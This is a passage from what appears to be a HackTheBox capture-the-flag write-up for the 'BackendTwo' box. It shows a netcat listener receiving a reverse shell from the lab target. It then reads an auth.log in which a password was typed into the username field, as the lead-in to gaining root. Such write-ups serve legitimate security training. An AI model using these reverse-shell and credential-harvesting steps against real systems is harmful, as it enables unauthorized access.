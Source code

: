 Instantly there’s a connection at `nc`:

```

oxdf@hacky$ nc -lnvp 443
Listening on 0.0.0.0 443
Connection received on 10.10.11.162 49378
bash: cannot set terminal process group (1086): Inappropriate ioctl for device
bash: no job control in this shell
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

htb@BackendTwo:~$

```

The site is also down, as requests to it just hang. Luckily, this server has clean up scripts running periodically to reset things. In less than 30 seconds, the shell dies, and the site is back up.

## Shell as root

### Enumeration

#### Find Password

In htb’s home directory, there’s an `auth.log` from the API application. Looking at it, there’s a clear case of where someone accidentally put in their password in the username field:

```

htb@BackendTwo:~$ cat auth.log 
04/27/2022, 20:15:33 - Login Success for admin@htb.local
04/27/2022, 20:18:53 - Login Success for admin@htb.local
04/27/2022, 20:32:13 - Login Success for admin@htb.local
04/27/2022, 20:35:33 - Login Success for admin@htb.local
04/27/2022, 20:40:33 - Login Success for admin@htb.local
04/27/2022, 20:43:53 - Login Success for admin@htb.local
04/27/2022, 20:57:13 - Login Success for admin@htb.local
04/27/2022, 21:05:33 - Login Success for admin@htb.local
04/27/2022, 21:07:13 - Login Success for admin@htb.local
04/27/2022, 21:13:53 - Login Success for admin@htb.local
04/27/2022, 21:22:13 - Login Failure for 1qaz2wsx_htb!
04/27/2022, 21:23:48 - Login Success for admin@htb.local
04/27/2022, 21:23:53 - Login Success for admin@htb.local
04/27/2022, 21:24:13 - Login Success for admin@htb.local
04/27/2022, 21:25:33 - Login Success for admin@htb.local
04/27/2022, 21:30:33 - Login Success for admin@htb.local
04/27/2022, 21:37:13 - Login Success for admin@htb.local

```

This is left over from the first [Backdend](/2022/04/12/htb-backend.html#enumeration), though it’s a new password. Sometimes when no one gets far enough to see a step in a UHC box, IppSec reuses one.
